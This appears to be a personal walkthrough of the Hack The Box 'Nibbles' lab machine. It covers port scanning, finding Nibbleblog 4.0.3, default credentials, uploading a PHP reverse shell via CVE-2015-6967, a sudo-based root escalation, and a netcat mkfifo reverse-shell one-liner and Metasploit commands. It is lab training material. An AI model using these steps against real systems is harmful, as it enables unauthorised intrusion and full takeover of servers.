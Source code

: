 ```yaml
---
title: Nibbles - A HackTheBox machine 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
  - reverse shell
  - CVE-2015-6967
---
```


voy# Nibbles - A Hack The Box machine


```shell-session
nmap -sC -sV -Pn 10.129.96.84 
```


Results:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Visiting the IP:80 in the browser and reviewing source code there is a comment:

```
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

So, we have a website at http://10.129.96.84/nibbleblog/

Dirb enumeration reveals a login panel: http://10.129.96.84/nibbleblog/admin.php

```shell-session
dirb http://10.129.96.84/nibbleblog/ /usr/share/wordlists/dirb/common.txt
```

Too many login attempts too quickly trigger a lockout with the message "Nibbleblog security error - Blacklist protection".

Also, dirb enumeration reveals some directories that are listable. Browsing around we get to this file: http://10.129.96.84/nibbleblog/content/private/users.xml where user "admin" is exposed.

Also CMS version is disclosed in http://10.129.96.84/nibbleblog/README:

```
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01
```

A quick search for that version brings up this vulnerability:

https://github.com/dix0nym/CVE-2015-6967/blob/main/README.md

In the usage example we can read:

```
python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php
```

Default credentials are: 

```
admin:nibbles
```

Also, reading the code of the exploit, we can see that the triggered endpoint for this CVE-2015-6967 is:

```
uploadURL = f"{nibbleURL}admin.php?controller=plugins&action=config&plugin=my_image"
```

Knowing this, we can login into the panel http://10.129.96.84/nibbleblog/admin.php and go to Plugins>My Image> Configure.

In the browser, upload a file. In my case, I uploaded my [pentesmonkey](pentesmonkey.md).

Now, we need to find where this file has been saved to. After browsing around, I ended up in http://10.129.96.84/nibbleblog/content/private/plugins/my_image/

There there was a file called image.php. Before clicking on it, we open in our attacker machine a netcat listener:

```shell-session
nc -lnvp 1234
```

Click on the file image.php listed in http://10.129.96.84/nibbleblog/content/private/plugins/my_image/ and you will have a reverse shell.

Cat user.txt (under /home/nibbler).

### Privilege escalation

```shell-session
sudo -l
```

Results:

```
$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

At /home/nibbler, unzip the file personal.zip. Now you can even replace monitor.sh for a different monitor.sh.
Mine has:

```
/bin/bash
```

Now run:

```shell-session
sudo -u root .home/nibbler/personal/stuff/monitor.sh
```

And you are root. Remember to do a chmod if needed.


## Some input from HTB walkthrough

You can run nmap script for nibbles service:

```shell-session
nmap -sC -p 22,80 -oA nibbles_script_scan 10.129.42.190
```


For privilege escalation:

```shell-session
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh
```


Alternative way: 

```msf6-session
msf6 > search nibbleblog

msf6 > use exploit/multi/http/nibbleblog_file_upload

msf6 exploit(multi/http/nibbleblog_file_upload) > set rhosts 10.129.42.190
rhosts => 10.129.42.190
msf6 exploit(multi/http/nibbleblog_file_upload) > set lhost 10.10.14.2 
lhost => 10.10.14.2
```

We need to set the admin username and password admin:nibbles and the TARGETURI to nibbleblog.
